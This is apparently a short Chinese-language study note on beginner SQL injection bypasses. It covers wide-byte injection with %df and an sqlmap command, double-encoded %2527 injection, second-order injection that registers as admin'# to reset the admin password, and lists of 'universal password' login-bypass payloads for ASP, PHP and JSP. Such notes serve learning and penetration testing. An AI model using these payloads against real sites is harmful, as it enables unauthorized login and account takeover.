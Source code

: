 # 注入绕过初级
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 宽字节注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: GBK编码原因
![](/assets/1D9686C1BD68278B8BCC54E99EC2B241.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 注入点后添加 %df
![](/assets/56A4F11A60114A0F775184E226B97253.png)
```
    sqlmap的应用:    sqlmap -u "URL%df"
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 二次编码注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: %25=%，%27='
![](/assets/819D6BE3ABC9332640A198A04C59DBE3.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 在注入参数后加上 %2527
![](/assets/2FB8757F83C36EA38BE10100CF6E5AFD.png)
![](/assets/F9F1EB8B18B34194EF8874D1070C3F1A.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 二次注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:
![](/assets/272D362F397C7D1EECE826BBA25CFC5A.png) 
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 
```
    适合在能提取数据的地方，例如利用注册信息成 admin'#，密码随意
    在利用找回密码，修改admin的密码
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 万能密码注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:
![](/assets/QQ20190218-182024@2x.png)
![](/assets/87E9A1A4708DED342D6152C1BC75DB04.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法:
```sql
    asp/aspx万能密码: ”or “a”=”a 、‘)or(‘a’=’a 、’or 1=1–、‘OR 1=1%00  
    PHP万能密码:  'or'='or'、 'or 1=1/* 字符型 GPC是否开都可以使用、User: something/Pass: ' OR '1'='1
    JSP万能密码: 1'or'1'='1、admin' OR 1=1/*
    
    https://blog.csdn.net/qq_36512966/article/details/72674794
```







    



